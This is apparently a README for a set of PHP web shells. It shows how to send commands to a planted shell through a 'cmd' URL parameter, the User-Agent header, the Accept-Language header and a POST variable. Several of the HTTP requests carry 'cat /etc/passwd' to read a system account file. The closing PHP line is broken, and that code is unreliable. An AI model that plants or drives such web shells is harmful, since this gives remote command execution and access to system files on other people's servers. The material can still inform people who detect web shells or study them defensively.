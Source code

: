 
# PHP shells

**(1) PARAMETER_SHELL**

**SHELL COMMANDS USING PARAMETER**

demo.com/PARAMETER_SHELL.php?cmd=ls

****

**(2) HTTP_USER_AGENT_SHELL**
  
**SET SHELL COMMANDS IN USER-AGENT HEADER**
  
GET /demo/shell.php HTTP/1.1
Host: 192.168.5.25
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Accept: text/html,application/xhtml+xml
Upgrade-Insecure-Requests: 1
**User-Agent: cat /etc/passwd**
Accept-Encoding: gzip, deflate, sdch
Accept-Language: en-GB,en-U 

****

**(3) HTTP_ACCEPT_LANGUAGE_SHELL**
 
**SET SHELL COMMANDS IN ACCEPT_LANGUAGE HEADER**

GET /demo/shell.php HTTP/1.1
Host: 192.168.5.25
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2623.112.                        
Accept-Encoding: gzip.                      
**Accept-Language: cat /etc/passwd**

****
  

**(4) POST WITH VARIABLE**
  
**JUST ADD YOUR COMMAND IN VARIABLE B**
  
$b = $_POST['cat /etc/password'];
